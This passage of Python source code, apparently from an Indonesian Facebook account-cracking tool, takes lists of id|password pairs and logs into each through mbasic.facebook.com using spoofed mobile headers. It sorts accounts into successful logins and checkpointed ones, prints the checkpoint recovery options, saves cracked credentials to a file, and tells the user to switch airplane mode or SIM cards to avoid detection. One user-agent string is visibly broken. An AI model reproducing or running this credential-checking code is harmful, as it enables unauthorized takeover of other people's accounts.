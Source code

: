 		print('\r%s---> Tidak Dapat Mengecek Opsi (Cek Login Di Lite/Mbasic)%s'%(u,x))
		open('CP/'+cpc,'a').write(idf+'|'+pw+'\n')
		cp+=1
#--------------------------[ CHECK-OPSI-CHEKPOINT-2 ]----------------#
def cek_opsi():
	c = len(akun)
	hu = 'Terdapat %s Akun Untuk Dicek\nSebelum Mulai, Mode Pesawat/Ubah Kartu Sim Terlebih Dahulu'%(c)
	cetak(nel(hu, title='CEK OPSI'))
	input(x+'['+h+'â€¢'+x+'] Mulai')
	cek = '# PROSES CEK OPSI DIMULAI'
	sol().print(mark(cek, style='green'))
	love = 0
	for kes in akun:
		try:
			try:
				id,pw = kes.split('|')[0],kes.split('|')[1]
			except IndexError:
				time.sleep(2)
				print('\r%s++++ %s ----> Error      %s'%(b,kes,x))
				print('\r%s---> Pemisah Tidak Didukung Untuk Program Ini%s'%(u,x))
				continue
			bi = random.choice([u,k,kk,b,h,hh])
			print('\r%s---> %s/%s ---> { %s }%s'%(bi,love,len(akun),id,x), end=' ');sys.stdout.flush()
			ua = 'Mozilla/5.0 (Linux; Android 11; TECNO KD8) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4755.101 Mobile Safari/537.365
			ses = requests.Session()
			header = {"Host": "mbasic.facebook.com","cache-control": "max-age=0","upgrade-insecure-requests": "1","origin": "https://mbasic.facebook.com","content-type": "application/x-www-form-urlencoded","user-agent": ua,"accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with": "mark.via.gp","sec-fetch-site": "same-origin","sec-fetch-mode": "navigate","sec-fetch-user": "?1","sec-fetch-dest": "document","referer": "https://mbasic.facebook.com/login/?next&ref=dbl&fl&refid=8","accept-encoding": "gzip, deflate","accept-language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7"}
			hi = ses.get('https://mbasic.facebook.com')
			ho = sop(ses.post('https://mbasic.facebook.com/login.php', data={'email':id,'pass':pw,'login':'submit'}, headers=header, allow_redirects=True).text,'html.parser')
			if "checkpoint" in ses.cookies.get_dict().keys():
				try:
					jo = ho.find('form')
					data = {}
					lion = ['nh','jazoest','fb_dtsg','submit[Continue]','checkpoint_data']
					for anj in jo('input'):
						if anj.get('name') in lion:
							data.update({anj.get('name'):anj.get('value')})
					kent = sop(ses.post('https://mbasic.facebook.com'+str(jo['action']), data=data, headers=header).text,'html.parser')
					print('\r%s++++ %s|%s ----> CP       %s'%(b,id,pw,x))
					opsi = kent.find_all('option')
					if len(opsi)==0:
						print('\r%s---> Tap Yes / A2F (Cek Login Di Lite/Mbasic%s)'%(hh,x))
					else:
						for opsii in opsi:
							print('\r%s---> %s%s'%(kk,opsii.text,x))
				except:
					print('\r%s++++ %s|%s ----> CP       %s'%(b,id,pw,x))
					print('\r%s---> Tidak Dapat Mengecek Opsi%s'%(u,x))
			elif "c_user" in ses.cookies.get_dict().keys():
				print('\r%s++++ %s|%s ----> OK       %s'%(h,id,pw,x))
			else:
				print('\r%s++++ %s|%s ----> CP       %s'%(x,id,pw,x))
			love+=1
		except requests.exceptions.ConnectionError:
			print('')
			li = '# KONEKSI INTERNET BERMASALAH, PERIKSA & COBA LAGI'